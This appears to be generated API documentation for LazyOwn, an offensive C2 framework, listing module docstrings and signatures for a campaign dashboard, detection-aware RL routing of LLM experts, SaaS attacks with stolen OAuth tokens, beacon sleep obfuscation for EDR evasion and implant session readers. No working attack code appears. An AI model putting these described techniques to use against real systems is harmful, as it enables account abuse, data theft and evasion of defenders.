- `_render_layout` (line 168) `def _render_layout(self, snapshot)` - *Build a full dashboard Layout from a snapshot dict.

Args:
    snapshot: Dashboard snapshot from DashboardEngine.build_snapshot().

Returns:
    Rich Layout ready for rendering.*
- `_render_header` (line 193) `def _render_header(self, snapshot)` - *Render the dashboard header bar with campaign statistics.

Args:
    snapshot: Dashboard snapshot.

Returns:
    Panel containing the header statistics bar.*
- `_render_topology` (line 221) `def _render_topology(self, snapshot)` - *Render the network topology tree panel.

Args:
    snapshot: Dashboard snapshot.

Returns:
    Panel with the network topology tree view.*
- `_render_recommendations` (line 261) `def _render_recommendations(self, snapshot)` - *Render exploit recommendations panel sorted by severity.

Args:
    snapshot: Dashboard snapshot.

Returns:
    Panel with a sorted table of exploit recommendations.*
- `_render_pivots_beacons` (line 321) `def _render_pivots_beacons(self, snapshot)` - *Render bottom panel with active pivots and beacons side by side.

Args:
    snapshot: Dashboard snapshot.

Returns:
    Layout with pivot routes and beacon profiles.*
- `_render_pivots` (line 337) `def _render_pivots(self, snapshot)` - *Render active pivot routes panel.

Args:
    snapshot: Dashboard snapshot.

Returns:
    Panel with pivot entries.*
- `_render_beacons` (line 372) `def _render_beacons(self, snapshot)` - *Render active beacon profiles panel.

Args:
    snapshot: Dashboard snapshot.

Returns:
    Panel with beacon entries.*
- `_render_shortcuts` (line 413) `def _render_shortcuts(self)` - *Render the keyboard shortcuts footer.

Returns:
    Panel with keyboard shortcut hints.*

#### `rl_trainer.py`
**Path:** `modules/rl_trainer.py`
**File Doc:** *modules/rl_trainer.py ====================== Reinforcement Learning trainer for expert routing in LazyOwn's MoE system.  Implements tabular Q-learning to improve which expert model is selected for each (task_type, engagement_phase) state.  Over time, the policy learns to route high-risk tasks to reasoning models and quick tasks to fast models.  Theory ------ MDP formulation: State  S  =  (task_type, engagement_phase, recent_success_bucket) Action A  =  expert_id (which model to invoke) Reward R  =  policy_reward - detection_penalty Transition: S → S' after the expert completes the task  Q-learning update (off-policy, model-free): Q(s, a)  ←  Q(s, a)  +  α  *  [ r  +  γ * max_a' Q(s', a')  -  Q(s, a) ]  Exploration strategy: ε-greedy with decay ε_t = ε_0 * decay^t   (minimum ε_min = 0.05)  Design principles ----------------- - Single Responsibility : RL update logic only; no model invocation - Open/Closed           : state encoding extended via StateEncoder - Dependency Inversion  : RLTrainer depends on IStateEncoder interface - Thread-safe           : RLock guards all Q-value mutations*

**Classes:**
- `RLConfig` (line 84) `class RLConfig` - *All tunable RL hyperparameters in one place.*
- `IStateEncoder` (line 101) `class IStateEncoder(ABC)` - *Contract for encoding environment state into a hashable string key.*
- `BucketedStateEncoder` (line 114) `class BucketedStateEncoder(IStateEncoder)` - *Encodes (task_type, phase, recent_reward_ema) into a discrete state key.

Reward EMA is bucketed into 4 bins so that the Q-table stays finite:
    low       EMA <  0
    medium    0 <= EMA <  5
    high      5 <= EMA < 10
    excellent EMA >= 10*
- `QValueStore` (line 150) `class QValueStore` - *Persists the Q-table to sessions/expert_qvalues.json.
Thread-safe via RLock.*
- `EpsilonTracker` (line 215) `class EpsilonTracker` - *Manages epsilon decay for epsilon-greedy exploration.*
- `RLTrainer` (line 267) `class RLTrainer` - *Q-learning trainer for expert routing.

Provides:
  encode_state()    — convert environment observations to state key
  select_action()   — epsilon-greedy expert selection
  update()          — Q-learning update from observed reward
  save()            — persist Q-table and epsilon

Detection penalty
-----------------
High detection probability reduces the effective reward seen by the trainer,
encouraging selection of lower-noise experts over time:
    effective_reward = raw_reward - lambda * detection_prob * |raw_reward|*

**Functions:**
- `get_trainer` (line 425) `def get_trainer(config)` - *Return (or create) the module-level singleton RLTrainer.*

**Methods:**
- `encode` (line 105) `def encode(self, task_type, engagement_phase, recent_reward_ema)` - *Return a string key representing the current state.*
- `encode` (line 131) `def encode(self, task_type, engagement_phase, recent_reward_ema)`
- `__init__` (line 156) `def __init__(self, path, optimistic_init)`
- `get` (line 168) `def get(self, state, action)`
- `set` (line 172) `def set(self, state, action, value)`
- `max_q` (line 176) `def max_q(self, state, candidates)` - *Return max Q(state, a) over the given candidate actions.*
- `argmax` (line 182) `def argmax(self, state, candidates)` - *Return the action with highest Q(state, a).*
- `save` (line 188) `def save(self)`
- `_persist` (line 192) `def _persist(self)`
- `_load` (line 200) `def _load(self)`
- `__init__` (line 218) `def __init__(self, start, minimum, decay, path)`
- `epsilon` (line 233) `def epsilon(self)`
- `step` (line 236) `def step(self)` - *Apply one decay step and persist.*
- `_save` (line 241) `def _save(self)`
- `_load` (line 250) `def _load(self)`
- `__init__` (line 284) `def __init__(self, config, state_encoder, q_store, epsilon_tracker)`
- `encode_state` (line 304) `def encode_state(self, task_type, engagement_phase, recent_reward_ema)` - *Convert environment observations into a discrete state key.*
- `select_action` (line 313) `def select_action(self, state, candidates, force_exploit)` - *Epsilon-greedy expert selection.

Parameters
----------
state:          Current state key (from encode_state).
candidates:     List of expert_id strings to choose from.
force_exploit:  When True, always pick argmax (no exploration).

Returns
-------
The selected expert_id.*
- `update` (line 347) `def update(self, state, action, reward, next_state, candidates, detection_prob)` - *Apply one Q-learning update.

Parameters
----------
state:          State at the time of action selection.
action:         The expert_id that was selected.
reward:         Raw reward from the policy engine.
next_state:     State after the action completed.
candidates:     Available experts in next_state (for max_Q calculation).
detection_prob: Detection probability from the oracle.*
- `best_expert_for_state` (line 389) `def best_expert_for_state(self, state, candidates)` - *Return the highest Q-value expert for the given state (greedy).*
- `q_values_for_state` (line 393) `def q_values_for_state(self, state, candidates)` - *Return {expert_id: q_value} for diagnostics.*
- `save` (line 397) `def save(self)` - *Persist Q-table to disk.*
- `epsilon` (line 402) `def epsilon(self)`
- `_penalize` (line 407) `def _penalize(self, reward, detection_prob)` - *Apply detection penalty:
    effective = reward - λ * detection_prob * |reward|
High detection → effective reward is pulled toward 0.*

#### `saas_attacks.py`
**Path:** `modules/saas_attacks.py`
**File Doc:** *SaaS attacks — Microsoft 365, Google Workspace, Salesforce, ServiceNow exploitation.  Provides attack primitives against major SaaS platforms: Microsoft 365 (EWS abuse, eDiscovery exports, Teams phishing), Google Workspace (Gmail API, Drive enumeration, Admin SDK), Salesforce (API access, report exports), and ServiceNow (knowledge base, ticket mining).  All techniques operate through the platform's official APIs with stolen tokens or credentials — no vulnerability exploitation required.*

**Classes:**
- `SaaSConfig` (line 49) `class SaaSConfig` - *Configuration for SaaS attack operations.

Attributes:
    platform: Target SaaS platform.
    access_token: OAuth2 access token.
    refresh_token: OAuth2 refresh token.
    tenant_id: Microsoft tenant ID.
    google_customer_id: Google Workspace customer ID.
    salesforce_instance: Salesforce instance URL.
    servicenow_instance: ServiceNow instance URL.*
- `SaaSEnumerationTools` (line 71) `class SaaSEnumerationTools` - *Enumerate SaaS tenant resources for data mining and lateral movement.*
- `SaaSAttackEngine` (line 152) `class SaaSAttackEngine` - *Execute SaaS platform enumeration and data exfiltration attacks.

Provides structured commands and GraphQL/REST API queries for each
supported SaaS platform. All techniques use the platform's official
APIs with stolen OAuth tokens or service account credentials.

Attributes:
    config: SaaSConfig with platform and authentication tokens.*

**Methods:**
- `microsoft365_commands` (line 75) `def microsoft365_commands()`
- `google_workspace_commands` (line 100) `def google_workspace_commands()`
- `salesforce_commands` (line 118) `def salesforce_commands()`
- `servicenow_commands` (line 135) `def servicenow_commands()`
- `__init__` (line 163) `def __init__(self, config)`
- `enumerate_all` (line 166) `def enumerate_all(self)` - *Generate enumeration commands for all supported SaaS platforms.

Returns:
    Dict with platform-specific enumeration commands.*
- `m365_ews_mail_search` (line 179) `def m365_ews_mail_search(self, search_term)` - *Search mailboxes via Exchange Web Services (EWS).

EWS provides SOAP-based mail access and often uses different
authentication than Graph API, providing an alternative path
if Graph access is restricted.

Args:
    search_term: Query term for mail search.

Returns:
    Dict with EWS SOAP payload and search configuration.*
- `google_workspace_domain_wide_delegation` (line 228) `def google_workspace_domain_wide_delegation(self)` - *Abuse Google Workspace Domain-Wide Delegation (DWD).

Service accounts with DWD can impersonate any user in the domain
without their credentials. This is a powerful persistence technique.

Returns:
    Dict with DWD abuse instructions.*
- `salesforce_report_mining` (line 257) `def salesforce_report_mining(self)` - *Mine Salesforce reports and dashboards for sensitive data.

Salesforce reports often contain aggregated financial data,
customer lists, and pipeline information valuable for
business intelligence gathering.

Returns:
    Dict with SOQL queries and report endpoints.*
- `slack_data_mining` (line 286) `def slack_data_mining(self)` - *Mine Slack Enterprise for sensitive conversations and files.

Slack contains credentials in conversations, SSH keys in code
snippets, and cloud provider tokens in integrations.

Returns:
    Dict with Slack API search and data mining techniques.*
- `detect_external_sharing` (line 327) `def detect_external_sharing(self)` - *Detect external sharing configurations across SaaS platforms.

External sharing to personal email accounts or partner domains
is a data exfiltration risk and potential pivot point.

Returns:
    Dict with external sharing detection commands.*
- `summary` (line 352) `def summary(self)`

#### `search.py`
**Path:** `modules/search.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: webscrapper gtofbins  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

*No symbols extracted*

#### `security_sanitizers.py`
**Path:** `modules/security_sanitizers.py`
**File Doc:** *Security sanitizers shared across the LazyOwn framework.  This module centralises the defensive code paths the framework relies on so each concern is implemented once, with strict input validation, and consumed from every caller that previously rolled its own logic. The classes here are the single source of truth for:  * Validating untrusted bind addresses before opening a server socket. * Resolving operator-supplied filenames against the sessions directory without enabling traversal. * Sanitising HTTP header values to prevent response-splitting. * Redacting credentials when shell commands are rendered for display or logging. * Converting arbitrary Python values into a JSON-safe shape that can never leak exception details or traceback information.  Each sanitizer is its own small class so the Single Responsibility Principle is satisfied; callers depend on the public method names rather than the internal implementations (Dependency Inversion); new sanitizers can be added without modifying existing ones (Open / Closed); and every tunable is exposed on :class:`SecurityConfig` so the framework keeps the ``payload.json`` single-source-of-truth contract documented in ``CLAUDE.md``.*

**Classes:**
- `SecurityConfig` (line 37) `class SecurityConfig` - *Immutable tunables consumed by every sanitizer in this module.

Defaults are conservative; the operator can override any value
by adding the matching key to ``payload.json``. The dataclass
is frozen so a sanitizer instance can be shared across threads
without locking. Tightening a value never breaks an existing
caller because every helper exposes the resulting behaviour as
a sentinel rather than as an exception.*
- `HeaderValueSanitizer` (line 101) `class HeaderValueSanitizer` - *Validate HTTP header names and values before transmission.

Headers crossing a proxy boundary may carry CR, LF or NUL
bytes that, if forwarded verbatim, allow an upstream to inject
extra headers or a response body. The sanitizer strips those
bytes and then enforces an allowlist regex; values failing
the allowlist are replaced by an opaque sentinel rather than
silently coerced to the empty string so the operator can spot
abnormal upstream behaviour in proxy logs.*
- `SessionPathResolver` (line 162) `class SessionPathResolver` - *Resolve untrusted filenames against a fixed base directory.

Every resolver is bound to one base directory whose realpath
is computed at construction; subsequent ``resolve`` calls join
the validated relative path with that base and reject anything
that would escape it after symlink resolution. Because the
validation logic is centralised here, CodeQL data-flow analysis
consistently recognises the sanitisation and the same guarantees
apply to every caller that routes through this class.*
- `BindAddressResolver` (line 256) `class BindAddressResolver` - *Pick the address a server socket should bind to.

The resolver fails closed: when the operator has not chosen an
address, it falls back to the configured loopback rather than
the unspecified ``0.0.0.0`` address. The unspecified address is
returned only when ``allow_unspecified_bind`` is ``True`` in
:class:`SecurityConfig`, which gives the operator an explicit,
auditable opt-in for exposing the C2 on every interface.*
- `CommandRedactor` (line 318) `class CommandRedactor` - *Render shell commands without leaking the supplied credentials.

The redactor produces two strings from a single template: an
executable form, where the real credentials are substituted in
place, and a display form, where every credential placeholder
and every byte-for-byte occurrence of the credentials is
replaced by an opaque sentinel. Callers must use the executable
form for ``subprocess`` calls and the display form for printing
or logging.*
- `OutputSanitizer` (line 406) `class OutputSanitizer` - *Project arbitrary Python values into a JSON-safe shape.

Exceptions, traceback objects and any value that fails JSON
serialisation are replaced by opaque sentinels rather than
their ``str`` representation, which prevents stack traces,
internal file paths and instance attributes from reaching the
HTTP client. Recursion is bounded by the configured maximum
depth and the breadth of every collection is capped so a
hostile callee cannot exhaust the responder's stack or memory.*

**Functions:**
- `build_default_config` (line 477) `def build_default_config(payload)` - *Return a :class:`SecurityConfig` populated from ``payload``.

Convenience entry point so callers do not need to import the
dataclass directly. ``payload`` is typically the result of
``utils.load_payload``; when ``None``, the conservative
defaults are returned.*

**Methods:**
- `from_payload` (line 68) `def from_payload(cls, payload)` - *Build a configuration object from a ``payload.json`` mapping.

Unknown keys are ignored so adding a new tunable in code
does not require an immediate ``payload.json`` migration.
Type-mismatched values are dropped silently because the
payload file is hand-edited by operators and the framework
must remain operational even with a partially valid file.

Args:
    payload: A mapping produced by ``json.load`` over
        ``payload.json`` (or any equivalent dictionary).

Returns:
    A new, frozen :class:`SecurityConfig` populated from
    the supplied mapping.*
- `__init__` (line 115) `def __init__(self, config)` - *Bind the sanitizer to a configuration instance.

Args:
    config: The :class:`SecurityConfig` from which the
        regex patterns, length limit and sentinel string
        are read at validation time.*
- `is_valid_name` (line 129) `def is_valid_name(self, name)` - *Return True iff ``name`` is a syntactically valid header token.

The check follows RFC 7230 ``token`` grammar via the
allowlist regex in :class:`SecurityConfig`.*
- `sanitize_value` (line 139) `def sanitize_value(self, value)` - *Return a header value that cannot smuggle a response split.

The output is guaranteed to consist solely of printable
ASCII plus the horizontal-tab character, with no CR, LF
or NUL bytes, and to be no longer than the configured
``max_header_value_length``. Inputs that are not strings,
that become empty after stripping forbidden bytes, or that
fail the allowlist are replaced by the configured sentinel.*
- `__init__` (line 174) `def __init__(self, base_dir, config)` - *Bind the resolver to an absolute, real base directory.

Args:
    base_dir: The directory that all resolved paths must
        stay within after symlink resolution.
    config: The :class:`SecurityConfig` providing the
        allowlist regex and depth limits.*
- `base_dir` (line 192) `def base_dir(self)` - *The resolved, absolute base directory.*
- `resolve` (line 196) `def resolve(self, untrusted_name)` - *Return ``(absolute, relative)`` for a safe filename.

``relative`` is suitable for ``send_from_directory`` while
``absolute`` is the realpath after joining and may be used
for ``os.path.isfile`` style checks. Returns ``None`` when
any structural, textual or filesystem check fails so the
caller has a single branch to handle every error.*
- `file_exists` (line 238) `def file_exists(self, untrusted_name)` - *Return True iff ``untrusted_name`` resolves to an existing file.

The method swallows :class:`OSError` so the caller never
observes filesystem-level errors during an availability
probe; missing, denied or unreadable entries all surface
as ``False``.*
- `__init__` (line 269) `def __init__(self, config, preferred_addresses)` - *Build a resolver with a prioritised list of candidate addresses.

Args:
    config: The :class:`SecurityConfig` providing the
        loopback fallback, the unspecified address literal
        and the opt-in flag.
    preferred_addresses: Operator-controlled address
        candidates evaluated in order. The first value that
        parses as a valid IPv4 or IPv6 literal wins.*
- `_is_well_formed` (line 285) `def _is_well_formed(self, candidate)` - *Return True iff ``candidate`` is a parseable IP literal.*
- `resolve` (line 298) `def resolve(self)` - *Return the address sockets should bind to.

Resolution order:

1. The first operator-preferred address that parses.
2. The unspecified address when ``allow_unspecified_bind``
   is explicitly enabled by the operator.
3. The loopback fallback from :class:`SecurityConfig`.*
- `__init__` (line 333) `def __init__(self, config)` - *Bind the redactor to a configuration instance.

Args:
    config: The :class:`SecurityConfig` providing the
        redaction sentinels and the placeholder-username
        marker.*
- `_display_username` (line 345) `def _display_username(self, username)` - *Return the username representation safe to print.*
- `_display_password` (line 353) `def _display_password(self, password)` - *Return the password representation safe to print.*
- `render` (line 359) `def render(self, template, substitutions, username, password)` - *Return ``(executable, display)`` for a templated command.

``substitutions`` provides the non-credential replacements
(host, port, output directory and so on). The method
guarantees that ``display`` never contains the supplied
``username`` or ``password`` byte-for-byte unless
``username`` matches the placeholder marker. The dual
return value avoids any chance of the caller printing the
executable form by accident.*
- `__init__` (line 418) `def __init__(self, config)` - *Bind the sanitizer to a configuration instance.

Args:
    config: The :class:`SecurityConfig` providing the
        placeholders, depth limit and collection cap.*
- `sanitize` (line 429) `def sanitize(self, value)` - *Return ``value`` projected into a JSON-serialisable form.*
- `_sanitize` (line 433) `def _sanitize(self, value, depth)` - *Recursive worker for :meth:`sanitize`.*

#### `selfupdate.py`
**Path:** `modules/selfupdate.py`
**File Doc:** *Guarded self-update for the LazyOwn working tree.  ``check`` fetches the configured branch and reports how far behind the tree is; ``apply`` only fast-forwards when the tree is clean and has no local commits, never runs remote code beyond a merge and never touches the branch without ``--yes``. The loop runs a throttled ``check`` (once a day) and reports an activity line when an update is available.*

**Classes:**
- `ReleaseArtifact` (line 24) `class ReleaseArtifact` - *One release candidate: bytes plus their expected digest.

Attributes:
    data: Raw binary payload.
    sha256: Expected lowercase hex digest of ``data``.
    version: Human version label carried into logs.*
- `Updater` (line 38) `class Updater` - *Verify, stage and roll back a single binary path.

Used by the guarded self-update path for release artifacts that are
downloaded instead of git-merged: a bad checksum never reaches the
live file, staging writes beside it first, and rollback restores the
``<name>.old`` snapshot left by the previous apply.*

**Functions:**
- `_run` (line 85) `def _run(argv, cwd, timeout)` - *Run one git command capturing output; injection point for tests.*
- `_git` (line 90) `def _git(args, runner, cwd, timeout)` - *Run ``git <args>`` in the repository root.*
- `current_branch` (line 96) `def current_branch(runner)` - *Return the checked-out branch name (empty on failure).*
- `dirty` (line 102) `def dirty(runner)` - *Return True when the working tree has uncommitted changes.*
- `check` (line 108) `def check(branch, runner)` - *Fetch the branch and report ahead/behind counts.

Args:
    branch: Branch to compare (defaults to the current branch).
    runner: Injected git runner.

Returns:
    Dict with ok, branch, behind, ahead and head hash.*
- `apply` (line 140) `def apply(branch, confirm, runner)` - *Fast-forward the tree to origin/<branch> when safe.

Args:
    branch: Branch to update from.
    confirm: Must be True; the CLI requires ``--yes``.
    runner: Injected git runner.

Returns:
    Dict with applied flag, reason and the check summary.*

**Methods:**
- `__init__` (line 47) `def __init__(self, live_path)` - *Bind the updater to the binary that may be replaced.*
- `verify` (line 52) `def verify(self, artifact)` - *Return True when the payload matches its recorded digest.*
- `stage` (line 57) `def stage(self, artifact, directory)` - *Write a verified payload into ``directory``.

Args:
    artifact: Verified release candidate.
    directory: Destination directory for the staged binary.

Returns:
    Path of the staged file.

Raises:
    ValueError: Checksum mismatch; the live binary is untouched.*
- `rollback` (line 77) `def rollback(self)` - *Restore the ``<name>.old`` snapshot over the live binary.*

#### `session_cleanup.py`
**Path:** `modules/session_cleanup.py`
**File Doc:** *Ephemeral infrastructure cleanup on shell exit.  Stops disposable assets (cyber range stacks, redirector tunnels, stray ``cloudflared`` processes) when the operator leaves the shell via Ctrl-D, ``quit``, ``qa`` or ``exit``. Everything here is best-effort and bounded: cleanup must never block or crash the exit path.*

**Functions:**
- `find_cloudflared_pids` (line 28) `def find_cloudflared_pids(ps_output)` - *Extract PIDs of ``cloudflared tunnel`` processes from ps output.

Args:
    ps_output: Raw stdout of ``ps -eo pid,args``.

Returns:
    Matching PIDs excluding the current process.*
- `_run_quiet` (line 49) `def _run_quiet(argv, timeout)` - *Run a teardown command, swallowing all failures.

Args:
    argv: Argument vector, never a shell string.
    timeout: Seconds before aborting.

Returns:
    True when the command exits zero.*
- `_compose_down` (line 66) `def _compose_down(compose_file, label)` - *Stop one compose stack when its containers exist.

Args:
    compose_file: Compose file governing the stack.
    label: Human label for status output.

Returns:
    True when the stack was stopped or nothing was running.*
- `stop_cloudflared_processes` (line 94) `def stop_cloudflared_processes()` - *Terminate stray ``cloudflared tunnel`` host processes.

Returns:
    Number of processes signalled.*
- `cleanup_ephemeral_infra` (line 120) `def cleanup_ephemeral_infra()` - *Stop all disposable infrastructure owned by this checkout.

Shuts down every range profile stack, the redirector stack, and stray
``cloudflared`` host processes. Safe to call when Docker is absent.

Returns:
    Dict of teardown step name to success flag.*

#### `session_rag.py`
**Path:** `modules/session_rag.py`
**File Doc:** *session_rag.py — ChromaDB-backed RAG over sessions/ artefacts.  Incrementally indexes every text artefact in sessions/: *.log, *.txt, *.csv, *.xml, *.json, *.nmap, *.md  State tracked in sessions/rag_state.json (mtime per file) so only new or changed files are re-indexed on each call.  ChromaDB is optional — if not installed the module degrades gracefully to keyword search (Python in-memory fallback).  Install: pip install chromadb  Public API ---------- get_rag() -> SessionRAG          singleton SessionRAG.index_new()           incremental re-index (fast, cron-safe) SessionRAG.index_all()           full re-index from scratch SessionRAG.query(text, n)        semantic / keyword search SessionRAG.context_for_step(phase, target, n)  -> str for prompt injection SessionRAG.stats()               -> dict*

**Classes:**
- `_KeywordFallback` (line 103) `class _KeywordFallback` - *Keyword search fallback when chromadb is not installed.

Persists to FALLBACK_INDEX_FILE so the index survives process restarts.
Uses a ring-buffer (MAX_FALLBACK_DOCS) to cap disk usage.*
- `_RagState` (line 168) `class _RagState`
- `SessionRAG` (line 188) `class SessionRAG` - *Semantic search over sessions/ artefacts using ChromaDB or keyword fallback.*

**Functions:**
- `_chunk_text` (line 88) `def _chunk_text(text, size, overlap)`
- `get_rag` (line 535) `def get_rag()`

**Methods:**
- `__init__` (line 111) `def __init__(self)`
- `load` (line 115) `def load(self, path)` - *Load index from disk (no-op if file absent or corrupt).*
- `save` (line 126) `def save(self, path)` - *Atomically persist index to disk.*
- `add` (line 136) `def add(self, doc_id, text, meta)`
- `query` (line 146) `def query(self, query_text, n)`
- `count` (line 156) `def count(self)`
- `reset` (line 159) `def reset(self)`
- `load` (line 172) `def load(cls)`
- `save` (line 181) `def save(self)`
- `__init__` (line 191) `def __init__(self)`
- `_init_backend` (line 202) `def _init_backend(self)`
- `_iter_artefacts` (line 248) `def _iter_artefacts(self)`
- `_index_file` (line 265) `def _index_file(self, path, collection_key)` - *Index a single file; return number of chunks added.*
- `index_new` (line 301) `def index_new(self)` - *Incrementally index only new or changed files.*
- `index_parquet_sources` (line 322) `def index_parquet_sources(self, force)` - *Index knowledge-base parquets (techniques_enriched, binarios, lolbas_index)
into the RAG store.

Each row is indexed as:  "<name>. <description_preview>  CMD: <command_preview>"
so queries like "bypass amsi windows" or "suid privilege escalation" resolve
to real Atomic Red Team commands and GTFOBins entries.

State is tracked in rag_state.json under the key "parquets/<stem>".*
- `index_all` (line 411) `def index_all(self)` - *Full re-index from scratch.*
- `query` (line 439) `def query(self, query_text, n, collection)` - *Return top-n relevant chunks as dicts with keys: text, source, chunk, score.*
- `context_for_step` (line 489) `def context_for_step(self, phase, target, cmd, n)` - *Return a compact RAG context string suitable for injection into an LLM prompt.
Queries with phase + target + command to retrieve the most relevant session artefacts.*
- `stats` (line 509) `def stats(self)`

#### `session_reader.py`
**Path:** `modules/session_reader.py`
**File Doc:** *modules/session_reader.py ========================== Reads LazyOwn C2 session artefacts: - sessions/{client_id}.log  (implant CSV: os, pid, hostname, ips, user, discovered_ips, result_portscan, result_pwd, command, output) - sessions/logs/c2/         (per-command output text files) - sessions/implant_config_*.json - sessions/hostsdiscovery.txt - sessions/tasks.json       (campaign task board)  Design (SOLID) -------------- - Single Responsibility : each Reader reads exactly one artefact type. - Open/Closed           : new artefact types via new Reader subclass. - Liskov                : all Reader subclasses honour the read() contract. - Interface Segregation : SessionAggregator exposes only what callers need. - Dependency Inversion  : SessionAggregator depends on AbstractReader.*

**Classes:**
- `ImplantRecord` (line 39) `class ImplantRecord` - *One row from sessions/{client_id}.log.*
- `CampaignTask` (line 74) `class CampaignTask` - *One task from sessions/tasks.json.*
- `SessionSummary` (line 85) `class SessionSummary` - *Aggregated view of all active sessions.*
- `AbstractReader` (line 127) `class AbstractReader(ABC)`
- `ImplantCSVReader` (line 137) `class ImplantCSVReader(AbstractReader)` - *Reads all sessions/{client_id}.log CSV files.
Returns List[ImplantRecord] with all rows from all implants.*
- `CommandOutputReader` (line 193) `class CommandOutputReader(AbstractReader)` - *Reads sessions/logs/c2/command_*output*.txt files.
Returns Dict[str, str]: {filename_stem -> content}*
- `DiscoveredHostReader` (line 214) `class DiscoveredHostReader(AbstractReader)` - *Reads sessions/hostsdiscovery.txt.*
- `TaskReader` (line 232) `class TaskReader(AbstractReader)` - *Reads sessions/tasks.json.*
- `TaskWriter` (line 257) `class TaskWriter` - *Appends or updates tasks in sessions/tasks.json.*
- `SessionAggregator` (line 313) `class SessionAggregator` - *Combines all readers into a single SessionSummary.
Dependency-injected readers allow substitution in tests.*

**Functions:**
- `get_aggregator` (line 347) `def get_aggregator()`

**Methods:**
- `is_privileged` (line 55) `def is_privileged(self)`
- `platform` (line 60) `def platform(self)`
- `ip_list` (line 69) `def ip_list(self)`
- `active_client_ids` (line 94) `def active_client_ids(self)`
- `privileged_sessions` (line 101) `def privileged_sessions(self)`
- `unprivileged_sessions` (line 108) `def unprivileged_sessions(self)`
- `latest_for` (line 114) `def latest_for(self, client_id)`
- `task_by_status` (line 118) `def task_by_status(self, status)`
- `read` (line 129) `def read(self, sessions_dir)`
- `read` (line 157) `def read(self, sessions_dir)`
- `read` (line 199) `def read(self, sessions_dir)`
- `read` (line 217) `def read(self, sessions_dir)`
- `read` (line 235) `def read(self, sessions_dir)`
- `__init__` (line 260) `def __init__(self, sessions_dir)`
- `append` (line 263) `def append(self, title, description, operator, status)`
- `update_status` (line 288) `def update_status(self, task_id, status)`
- `__init__` (line 319) `def __init__(self, implant_reader, output_reader, host_reader, task_reader)`
- `aggregate` (line 331) `def aggregate(self, sessions_dir)`

#### `session_state.py`
**Path:** `modules/session_state.py`
**File Doc:** *LazyOwn Session State ===================== Aggregates live session data from multiple sources into a single sessions/session_state.json snapshot consumed by the recommender, timeline narrator, and MCP tools.  Sources: - payload.json          → active target, lhost, config - sessions/events.jsonl → rule-matched events (findings) - sessions/LazyOwn_session_report.csv → last N commands executed  Public API: build_state()  → dict   build and return state (does NOT write to disk) refresh()      → dict   build + write sessions/session_state.json load()         → dict   read the last written state (or build if missing)*

**Functions:**
- `_detect_phase` (line 50) `def _detect_phase(event_types)`
- `_read_last_commands` (line 75) `def _read_last_commands(n)`
- `_read_events` (line 93) `def _read_events(n)`
- `_extract_creds_from_events` (line 118) `def _extract_creds_from_events(events)`
- `_extract_hosts` (line 133) `def _extract_hosts(rows, payload)` - *Build {ip: {ports: [...], domain: str}} from CSV rows + payload.*
- `_summarise_commands` (line 175) `def _summarise_commands(rows)`
- `build_state` (line 189) `def build_state()` - *Assemble and return the current session state dict.*
- `refresh` (line 240) `def refresh()` - *Build state and persist to sessions/session_state.json.*
- `load` (line 251) `def load()` - *Return the last written state, or build it fresh if stale/missing.*

#### `sidequestion.py`
**Path:** `modules/sidequestion.py`
**File Doc:** *Isolated side-question answering against immutable snapshots.  Ports the LAZY sidequestion contract. Operators ask follow-up questions without mutating the main agent loop. Answers derive from a captured snapshot plus recent successful exchanges under token and concurrency budgets.*

**Classes:**
- `SideConfig` (line 19) `class SideConfig` - *Centralized constants for side-question behavior.*
- `Snapshot` (line 32) `class Snapshot` - *Immutable context captured from the main agent.*
- `SideQuestion` (line 42) `class SideQuestion` - *Single isolated question with accumulated answer.*
- `SideQuestionService` (line 52) `class SideQuestionService` - *Bounded service for snapshot-scoped questions.*

**Methods:**
- `__init__` (line 55) `def __init__(self, answer_fn, config)` - *Initialize registries with an optional answer function.*
- `capture` (line 66) `def capture(self, task_id, text)` - *Freeze main-loop context into an immutable snapshot.*
- `ask` (line 75) `def ask(self, snapshot_id, question)` - *Answer from a snapshot without touching main state.*
- `cancel` (line 104) `def cancel(self, request_id)` - *Mark a pending request cancelled.*
- `history` (line 113) `def history(self, limit, before)` - *Page request history newest first.*

#### `sleep_obfuscation.py`
**Path:** `modules/sleep_obfuscation.py`
**File Doc:** *Sleep obfuscation engine for beacon memory evasion.  Defines a catalog of sleep obfuscation techniques with configurable parameters. Provides the ``SleepObfuscationEngine`` which selects and validates techniques based on platform compatibility and operational parameters.  Techniques catalogued: - Sleep Mask (RW -> RX/RW cycle via VirtualProtect/mprotect) - Ekko-style threadless sleep (timer queue + ROP gadgets) - Stack Spoofing (call stack overwrite before sleep) - Module Stomping (overwrite loaded module .text section) - APC Injection Chain (queued APC during sleep) - Hardware Breakpoint (VEH + HWBP on sleep/resume) - Fiber-based sleep (convert thread to fiber, swap, convert back) - Thread Pool (queue work item to pool thread before sleep)  Each technique is defined with its platform support, minimum beacon version, detection resistance score, and configurable parameters.  Contracts: - SleepTechnique: immutable dataclass for a technique definition - SleepTechniqueCatalog: curated catalog of known techniques - SleepObfuscationConfig: runtime configuration for the active technique - SleepObfuscationEngine: selects, validates, and configures techniques - SleepTechniqueValidator: validates config against technique constraints  Design (SOLID): - Single Responsibility: catalog, config, engine, validator are separate - Open/Closed: new techniques added via catalog registration*

**Classes:**
- `OsPlatform` (line 57) `class OsPlatform(str, Enum)` - *Operating system platform.*
- `TechniqueRisk` (line 64) `class TechniqueRisk(str, Enum)` - *Risk classification for a sleep obfuscation technique.*
- `SleepTechnique` (line 73) `class SleepTechnique` - *Definition of a single sleep obfuscation technique.

Attributes:
    name: Unique technique identifier.
    description: Human-readable description.
    platforms: Supported OS platforms.
    detection_resistance: Score 0-100 indicating EDR evasion strength.
    risk: Operational risk level (low/medium/high).
    min_beacon_version: Minimum beacon engine version required.
    params: Parameter schema as dict of name -> (type, default, description).
    requires_rop_gadgets: Whether the technique needs ROP gadget scanning.
    stability_note: Operator-visible note about known issues.*
